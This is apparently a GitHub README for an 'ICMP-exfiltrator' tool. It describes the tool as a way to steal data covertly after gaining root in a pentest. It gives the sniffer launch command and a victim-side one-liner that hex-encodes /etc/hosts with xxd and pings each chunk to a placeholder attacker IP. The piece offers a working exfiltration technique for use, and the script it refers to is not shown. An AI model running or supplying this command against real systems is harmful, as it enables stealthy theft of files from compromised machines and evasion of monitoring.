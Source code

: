 # ICMP-exfiltrator
A simple script for data exfiltration using ICMP packets.

This script will be useful at the end of a pentest to steal data when otherwise we could not.After getting root we could use this script to exfiltrate data to our attacker's server stealthily via ICMP packets.

# Usage

We let our sniffer listen.

``` python
python3 icmp_exfiltration.py 2> /dev/null
```
Using the xxd command we can encode a file and send it to the attacker's sniffer via ping. We have to write this command on the victim machine.

```bash
xxd -p -c 4 /etc/hosts | while read line; do ping -c 1 -p $line <attackers_IP_address> ; done
```
# Screenshots

